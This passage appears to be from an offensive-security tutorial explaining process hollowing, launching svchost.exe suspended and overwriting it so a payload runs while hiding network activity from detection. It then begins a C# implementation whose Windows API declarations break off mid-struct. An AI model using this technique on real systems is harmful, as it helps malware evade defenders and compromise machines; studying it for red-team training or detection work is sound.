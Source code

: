 ### Process Hollowing

The previous techniques inject code into processes such as `explorer.exe` or `notepad.exe`. Even though this activity is somewhat masked by familiar process names, we could still be detected since we are generating network activity from processes that generally do not generate it. Instead, we can migrate to `svchost.exe`, which normally generates network activity.

The problem is that all svchost.exe processes run by default at SYSTEM integrity level, meaning we cannot inject into them from a lower integrity level. Additionally, if we were to launch svchost.exe (instead of Notepad) and attempt to inject into it, the process will immediately terminate.

To address this, we will launch a svchost.exe process and modify it before it actually starts executing. This is known as _Process Hollowing_ and should execute our payload without terminating it.

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Threading;

namespace ProcessHollowing
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer,Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
```